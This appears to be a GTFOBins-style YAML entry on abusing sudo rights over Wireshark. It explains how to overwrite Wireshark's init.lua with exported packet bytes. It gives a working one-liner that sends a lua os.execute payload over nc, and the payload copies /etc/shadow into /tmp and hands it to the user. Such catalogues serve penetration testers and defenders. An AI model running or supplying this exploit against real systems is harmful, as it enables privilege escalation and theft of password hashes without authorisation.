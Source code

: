 ```yaml
---
functions:
  sudo:
    - description: |
        Wireshark has an embedded lua script engine, however it does not execute
        when run as root (unless configured otherwise). This restriction is
        enforced by `init.lua` which runs on start up.

        It is possible to override this file with chosen data, using Wireshark
        "export data" feature. Run the command, then on the UDP data right click
        and select "Export Packet Bytes...". Save it into the file `init.lua`
        which is usually located in `/usr/share/wireshark/init.lua`.

        Finally re-run wireshark as sudo.

        __Note__: You may need to ensure your password is in sudo cache before
        running the command. Otherwise, you'll need to run wireshark in
        foreground, and execute `echo` and `nc` commands manually.
      code: >
        sudo wireshark -k -i lo -f 'udp port 4242' &
        sleep 5 &&
        echo -e "os.execute('cp /etc/shadow /tmp/shadow; chown $USER: /tmp/shadow')" | nc -u 127.127.127.127 4242
---
```

